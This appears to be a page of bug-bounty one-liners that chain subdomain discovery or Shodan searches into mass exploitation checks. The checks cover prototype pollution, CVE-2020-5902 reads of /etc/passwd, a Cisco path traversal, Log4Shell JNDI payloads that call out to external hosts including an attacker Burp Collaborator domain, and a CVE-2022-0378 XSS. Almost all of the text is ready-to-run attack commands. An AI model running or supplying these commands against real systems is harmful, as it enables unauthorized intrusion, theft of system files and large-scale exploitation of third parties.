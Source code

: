 
## 
<br/><br/>
## Prototype Pollution:

`subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"`

---

## 
<br/><br/>
## CVEs:

### 
<br/><br/>
### CVE-2020-5902:

`shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done`

### 
<br/><br/>
### CVE-2020-3452:

`while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt`

### 
<br/><br/>
### CVE-2021-44228:

`cat subdomains.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done`

`cat urls.txt | sed `s/https:///` | xargs -I {} echo `{}/${jndi:ldap://{}attacker.burpcollab.net}` >> lo4j.txt`

### 
<br/><br/>
### CVE-2022-0378:

`cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done`

### 
<br/><br/>
### CVE-2022-22954:

